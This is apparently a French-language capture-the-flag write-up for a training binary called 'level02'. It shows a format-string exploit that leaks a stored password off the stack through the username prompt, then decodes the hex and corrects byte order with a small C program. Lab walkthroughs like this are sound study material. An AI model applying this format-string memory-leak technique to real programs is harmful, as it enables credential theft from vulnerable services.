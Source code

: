 
python -c 'print "%22$llx %23$llx %24$llx %25$llx %26$llx" + "\x00" + "A"*0x60' | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d does not have access!

$ echo -n 756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d | xxd -r -p ; echo
unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M

le mot de passe est incorrecte, on comprendra qu'il y a tres certainement un probleme de boutisme.

pour gerer le boutisme on finira par faire un main:
#include <unistd.h>
#include <strings.h>
#include <stdio.h>
#include <byteswap.h>
#include <stdint.h>


int			main(int argc, char **argv)
{
	printf("%016lx%016lx%016lx%016lx%016lx", bswap_64(0x756e505234376848),
						bswap_64(0x45414a3561733951),
						bswap_64(0x377a7143574e6758),
						bswap_64(0x354a35686e475873),
						bswap_64(0x48336750664b394d));
}

$ gcc main.c
$ ./a.out  | xxd -r -p | wc -c
40
$ ./a.out  | xxd -r -p ; echo
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
